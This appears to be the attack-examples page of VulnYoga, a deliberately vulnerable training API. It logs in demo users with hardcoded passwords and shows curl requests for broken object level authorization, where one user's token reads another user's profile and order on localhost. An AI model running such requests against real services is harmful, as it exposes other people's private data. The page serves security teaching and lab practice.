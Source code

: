 # VulnYoga Attack Examples

This document contains working curl examples to demonstrate each OWASP API Security Top 10 vulnerability in VulnYoga.

⚠️ **WARNING**: These examples are for educational purposes only. Use only in isolated, controlled environments.

## Prerequisites

1. Start VulnYoga: `npm run dev`
2. Ensure all vulnerability flags are enabled (default)
3. Have `jq` installed for JSON parsing: `brew install jq` (macOS) or `apt install jq` (Ubuntu)

## Setup: Get Authentication Tokens

```bash
# Login as Alice (Customer)
ALICE_TOKEN=$(curl -sX POST http://localhost:3000/api/v1/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"alice@demo.local","password":"alice123"}' | jq -r .token)

# Login as Bob (Staff)
BOB_TOKEN=$(curl -sX POST http://localhost:3000/api/v1/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"bob@demo.local","password":"bob123"}' | jq -r .token)

# Login as Admin
ADMIN_TOKEN=$(curl -sX POST http://localhost:3000/api/v1/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"admin@demo.local","password":"admin123"}' | jq -r .token)

echo "Alice token: $ALICE_TOKEN"
echo "Bob token: $BOB_TOKEN"
echo "Admin token: $ADMIN_TOKEN"
```

## API1: Broken Object Level Authorization (BOLA)

### Attack: Access Another User's Profile
```bash
# Login as Bob, then access Alice's profile (ID 1)
curl -sX GET "http://localhost:3000/api/v1/users/1" \
  -H "Authorization: Bearer $BOB_TOKEN" | jq .
```

### Attack: Access Another User's Order
```bash
# Login as Bob, then access Alice's order (ID 1)
curl -sX GET "http://localhost:3000/api/v1/orders/1" \
  -H "Authorization: Bearer $BOB_TOKEN" | jq .
```
